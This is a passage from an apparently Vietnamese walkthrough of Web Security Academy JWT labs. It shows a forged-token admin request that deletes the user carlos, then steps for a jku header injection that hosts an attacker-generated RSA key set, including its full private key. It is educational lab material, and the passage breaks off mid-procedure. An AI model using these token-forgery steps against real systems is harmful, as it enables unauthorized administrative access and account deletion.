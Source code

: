 ```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a5d00030422b0d280d4d0b500a60082.web-security-academy.net
```
- Ngoài ra có thể thay đổi **cookie** trên trình duyệt để xóa
    - Copy nội dung **cookie** ở phần **Serialized JWT**
    - Mở **Devtool** của trình duyệt > **Application** > **Cookie**, thay đổi giá trị **cookie** của trang web hiện tại bằng nội dung đã copy
    - Có thể sử dụng **Cookie Editor Extension** để sửa

### Lab: JWT authentication bypass via jku header injection
#### Exploit
- Login bằng account `wiener`
- Gửi request đến đến **Repeater**
- Thử truy cập `/admin` => từ chối

```http
GET /admin HTTP/2
Host: 0a5d00030422b0d280d4d0b500a60082.web-security-academy.net
```
- Tạo **JSON Web Key**
    - **JWT Editor** > **New RSA Key**
    - **Format: JWK** > **Genarate**
- Tạo **json file** lưu trên **exploit server**
    - Đến **exploit server** > đổi **path** đến **file** thành `/xxnx.json`
    - Đổi `Content-Type: application/json; charset=utf-8`
    - Tạo khóa `keys` và dán key vừa **copy** làm **value** cho `keys`

```json
{
  "keys": [
    {
      "kty": "RSA",
      "kid": "985f339f-1230-4c71-b2ce-edcf5284bc09",
      "n": "4uNFrzM2rtJkFnZ3HLs1jlugSYf-7Gl0zRbvO0lVTS6wTLDeB0doZbh9fknTbPR3P8HaXNtpjEyXy2xvibTilKmD3zl4v6g83MYkXxI9DVOFknEawM4AXTajOaFSZm9ePUXo9jTme3RYtAGV5hh7oftuQNZLlueNuV5nIa6uG4AkuRDgwO6H8G_DLDiEvoZy2_CcptB4vY1nyUlXO0YgxB2PW7L0riKxoPfnboExQC9UZh1xqhxRqVWnS4B_jcWEoBTLy0LmB_XkSTdOFQnMqUJ-LqWo4J6rcn84c_jVQX8KNOqMzH3GZoM7tcfk5ayOsy0wQgRcB4aitD3nvH1JRw",
      "e": "AQAB",
      "d": "I3zTiXPD5H7uk2o0IepQ633-tCxGqJ5WBpNvwnYrQXHsDBLIp5rOWXAMhj7wiDo0l2RazetZDE4ZRVgl71lmQe_Bu0iMpRhLbLy73k2b_wRGqtZwuMzVLGnqCI7oXzKhgDP5xt4Urs_5OoPaTlhwqLALBAPWDuRo5nWS6_xxKcZgkbYheqIefcQiAxivUGPwygqe1R0cT5cKeyafD_7TtocW8HMLuPwkRsLK0fhR8cNzsZbOGptqlcfFPFFzNfxlF6Qb8IP__yro9R0bGkA3EfCl2sLtVklya6XKKG9Zd3F5mpgoMrfZVsRxUAJdOIMiTTIQaoy8LgqPdS7Zev1SAQ",
      "p": "9Gha379Fx9rJqXMqK5nl1peC0crdFj-Ogs_ds6zJjxx50VmzFt-myJpKCUT2pDVOWmF0wo6Sj-k0f6C-VDbry0VsWASnKySXW35McH7uuiRqWuPqSVo8og2OViQo2EfOt4Up29mb6_ocQJjWU7vnfpsXqBIaG84p71jr6IpFw68",
      "q": "7aYwEE4F5FD88up4cbDMzTM6bJBlw2gzhWtGOPgHiBB12nTUimSH91avj1NJMBZU_GxJ220U8t6SfqyW5I930NQrBtcgPvAmY8OS0YxdxRQ8PRz1xsl6D4b3iC7xPUWaUdoyotMuRa39Sfx8SrKvWTWtbvb6mVQZXdop8EyNgek",
      "dp": "zJMsvWwUtJxlf_htq-E9iMl5LrFnLWA1oTjskaBndeqX7KvwQ40gxXifz_JxoDEeTHiWiuNbuimxT8L0jPkLlTGe5m2-n1YZevPUd7VHjXc9rqZnTM7DQcGnCmNp7N7uIJ7N0r_qyzKmw0sq2xvFQSwAOSYtxGhkoXsEu7hBfPE",
      "dq": "TNMGgp7WZMKRou2NViNzcXp4DpR3cT4EOcM-BjiYJrI7hw1xj_ODyL9rLYgdBsCRZLCVB6wxs3mkHfMpLGX8s7OC3Uk6EV6M6n9UvQ0FWyp5dsAf681B-jcFWi7iqY4QnxlMeTqPoNLoKLzIaVVuPgaONGr_BAYd1Ssrl5UHwdE",
      "qi": "YdQPuVio6vO_lpAKBY_aw34nKZhrDrhaMjpDRIvfDP8elkTWYOqJ3vLeo1nDutlgdRpuEFPGNiEO677nIkBk9aYJTYX0uVbpX6uIUpPNp0c-ltQzTRL9B1iTO8LEOIwKxbMkS_ST6CVyFSGKKzz1N5vhMGZ_-fXZXA6xSGsJTZM"
    }
  ]
}
```
- Đến **Repeater** > **JSON Web Token**
- Thêm **JSON Web Key set URL (JKU)** vào **header JWT**, sửa `kid` thành `kid` của **key** vừa tạo
